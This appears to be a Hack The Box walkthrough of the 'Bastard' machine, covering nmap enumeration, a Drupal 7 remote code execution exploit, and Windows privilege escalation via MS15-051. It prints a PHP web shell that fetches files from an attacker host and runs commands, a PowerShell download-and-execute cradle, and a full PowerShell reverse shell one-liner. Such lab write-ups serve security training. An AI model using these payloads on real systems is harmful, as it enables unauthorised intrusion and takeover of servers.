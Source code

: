 ![logo](/logo.png)

# [Bastard- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Mar 2017 as the seventh machine on HTB,Bastard created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](/Windows/Windows-Medium/Bastard/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bastard 10.10.10.9                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 20:56 EAT
Nmap scan report for 10.10.10.9
Host is up (0.38s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.55 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Microsoft IIS httpd 7.5 `and its running an `Drupal 7`. 

port[80]-  http
port[135]-msrpc
port[49154]-msrpc

looking at the port 80 we find a landing page [http://10.10.10.9](http://10.10.10.9)

![](/Windows/Windows-Medium/Bastard/Screenshots/bastard.png)so we try to look for the version of the drupal but on the nmap we see that their is  a changelog so we try to see what we can find in the changelog

![](/Windows/Windows-Medium/Bastard/Screenshots/changelog.png)

now searching for the exploit using searchsploit reveles that drupal 7.x can be a potential exploit of a `Remote code Execution` 

```sh
searchsploit Drupal 7.x
```

![](/Windows/Windows-Medium/Bastard/Screenshots/searchsploit.png)

lets examine the exploit to see what it does.looking at the exploit it trying to abuse the `PHP Seriallization` . The exploit requires a few small modifications to run successfully. There is a syntax error on line 16 as well as line 71. The variables that must be modified are `url`, `endpoint_path`,`filename` and `data`.

![](/Windows/Windows-Medium/Bastard/Screenshots/exploit.png)
so we have to modify the code a bit best on the gobuser i ran earlier i found out something intresting which is a endpoint which is `rest`

![](Windows/Windows-Medium/Bastard/Screenshots/rest.png)

the change would be like this just also to add some interactivity on the shell

![](/Windows/Windows-Medium/Bastard/Screenshots/modified.png)

```sh
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<< 'EOD'
<?php 
  if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.9:8000/" .$_REQUEST['fupload']));
   };
  if (isset($_REQUEST['fexec'])) {
   echo "<pre>" .shell_exec($_REQUEST['fexec']) . "<pre>";
  };
?>
EOD;


$file = [
    'filename' => 'leshack.php',
    'data' => $phpCode

```

now we run the script to execute the exploit

![](/Windows/Windows-Medium/Bastard/Screenshots/drupal.png)

so when follow the [http://10.10.10.9/leshack.php](http://10.10.10.9/leshack.php) and execute something from the browser we get a some remote execution

![](/Windows/Windows-Medium/Bastard/Screenshots/remote.png)

running the exploit will create the specified PHP file as well as generate `user.json` and
`session.json` locally. The session file contains valid cookie data for the Drupal `admin user`, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

# Privillage Escalation

so we check the  `systeminfo` to see if we can get any information

![](/Windows/Windows-Medium/Bastard/Screenshots/systeminfo.png)

now we first have to get a good shell so what we do after getting the remote code execution is to be able to get a good shell 

```sh
http://10.10.10.9/leshack.php?fexec=echo%20IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.9:8000/bastard.ps1%27)%20|%20powershell%20-noprofile%20-
```

the exploit we just replicate from the prevoius box optimum

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

we set a listner to listen for the `bastard.ps1` 

![](/Windows/Windows-Medium/Bastard/Screenshots/pythonserver.png)

![](/Windows/Windows-Medium/Bastard/Screenshots/reverseshell.png)

As the target is a fresh install of `Windows Server 2008`, it is fairly easy to exploit. No service
packs or hotfixes have been installed.so we run  the sherlock script just like the prevous box to see if we can find something that is vulnerable

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Medium/Bastard/Screenshots/sherlok1.png)

This appears to be vulnerable
![](/Windows/Windows-Medium/Bastard/Screenshots/sherlork2.png)

A bit of research reveals quite a few potential exploits,however the most reliable is `MS15-051`. [Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)  and also some search on searchsploit reveels more infomation.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms15.png)
it revel some compiled 64.vulnerability that can be uploaded to the machine to be runned.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms152.png)


so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
http://10.10.10.9/leshack.php?fupload=Ms15.exe&fexec=%20Ms15.exe%20whoami
```

![](/Windows/Windows-Medium/Bastard/Screenshots/ms153.png)

checking at the shell we see it has uploaded 

![](Windows/Windows-Medium/Bastard/Screenshots/ms154.png)

now when we go and run we get a confirmation

![](/Windows/Windows-Medium/Bastard/Screenshots/whoami.png)

since we can execute soame command using that we need a permanet shell that is easy to use so what we can do id to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)

and by doing this from the shell 

![](/Windows/Windows-Medium/Bastard/Screenshots/shellcode.png)

or this from the webrowser

![](Windows/Windows-Medium/Bastard/Screenshots/webbrowser.png)

we get a shell

![](/Windows/Windows-Medium/Bastard/Screenshots/executableshell.png)

Then now we obtain the `root and user flag`

![](Windows/Windows-Medium/Bastard/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------